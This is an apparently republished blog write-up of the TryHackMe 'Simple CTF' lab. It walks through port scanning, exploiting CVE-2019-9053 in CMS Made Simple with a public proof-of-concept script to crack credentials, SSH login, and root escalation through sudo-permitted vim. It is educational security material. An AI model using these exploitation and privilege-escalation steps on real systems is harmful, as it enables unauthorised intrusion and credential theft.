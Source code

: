 # NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)

# Simple CTF | A Simple Writeup

A simple writeup for a simple machine.

Released: 2024-02-19

 > Created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797), you can play the room [here](https://tryhackme.com/room/easyctf).

## Question's 1 & 2

- Starting with a NMAP scan...

```bash
❯ sudo nmap -sS -sV 10.10.221.233
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-18 22:46 EST
Nmap scan report for 10.10.221.233
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.38 seconds
```

> How many services are running under port 1000? & What is running on the higher port?

- Ports 21 & 80 are running under port 1000 and **ssh** is running on the higher port

## Dirsearch

```bash
❯ dirsearch -u 10.10.221.233 --exclude-status 404,403

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/_10.10.221.233/_24-02-18_23-42-55.txt

Target: http://10.10.221.233/

[23:43:01] Starting:
[23:44:32] 200 -  540B  - /robots.txt
[23:44:35] 301 -  315B  - /simple  ->  http://10.10.221.233/simple/

Task Completed
```

- Visiting *robots.txt* has nothing of interest but */simple* shows us some sort of CMS page.

## Question 3 & 4

- Towards the bottom, we see the site is powered by ***CMS Made Simple version 2.2.8***

![Image showing a potential vulnerability](blog/simplectfpics/vulnerabilityclue1.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1</small>
</div>

- If we search up that specific version, we find that it's vulnerable to [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) which is a SQLI vulnerability.

## Question 5

- After a bit of Googling, I find [this POC script](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3). I append [this](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best110.txt) wordlist as the hint states.

```bash
❯ python3 csm_made_simple_injection.py -u http://10.10.159.250/simple/ --crack -w /Users/vipin/tech/CTFs/wordlists/best110.txt

[+] Salt for password found: <REDACTED>
[+] Username found: mitch
[+] Email found: admin@adw
[+] Password found: <REDACTED>
[+] Password cracked: <REDACTED>
```

## Questions 6 to 10 + Final Thoughts

- Now that we have the credentials, we can login to through **ssh**.

```bash
❯ ssh mitch@10.10.159.250 -p 2222
mitch@10.10.159.250's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
<REDACTED>
```

> Is there any other user in the home directory? What's its name?

- In `/home`, we find another user with the name *"sunbath"*

> What can you leverage to spawn a privileged shell?

I ran ```sudo -l```  which tells us what the user can use `sudo` for and we can use `sudo` for **vim**. Let's try to exploit **vim** (If you want to understand how to exploit **vim** read [this](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d))

```bash
❯ sudo vim 

:r!whoami # using ":r!" we can run commands as root

root # and look it tells us we are root
```

- Small Issue: We cannot run commands that have spaces, below is another way to exploit vim to gain root privileges.

```bash
$ sudo vim -c '!bash'
root@Machine:/# cd /root
root@Machine:~# ls
root.txt
root@Machine:~# cat root.txt
<REDACTED>
root@Machine:~#
```

Voila! Another machine rooted! I had a blast and learned some new things along the way. I hope you enjoyed this writeup. If you're hungry for more, feel free to check out other writeups I made!